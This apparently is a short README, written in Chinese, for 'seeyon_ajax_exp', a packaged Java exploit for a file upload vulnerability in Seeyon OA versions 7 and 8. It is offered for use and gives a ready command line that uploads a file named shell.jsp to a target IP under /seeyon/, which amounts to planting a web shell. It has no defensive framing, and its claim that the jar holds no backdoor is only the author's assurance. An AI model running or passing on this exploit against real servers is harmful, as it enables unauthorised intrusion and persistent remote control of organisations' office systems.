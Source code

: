 # seeyon_ajax_exp

致远OA文件上传漏洞利用脚本

已知影响版本：致远oa v7,v8

脚本已经打包好，没有任何防护，可直接查看源码，不存在后门。

使用方法：java -jar seeyon_exp.jar 目标地址 上传文件名字 上传文件绝对路径

例:      java -jar seeyon_exp.jar 10.10.10.10:8080 shell.jsp C:\Users\nex1less\Desktop\222.txt

默认路径为:ip + /seeyon/ + 文件名
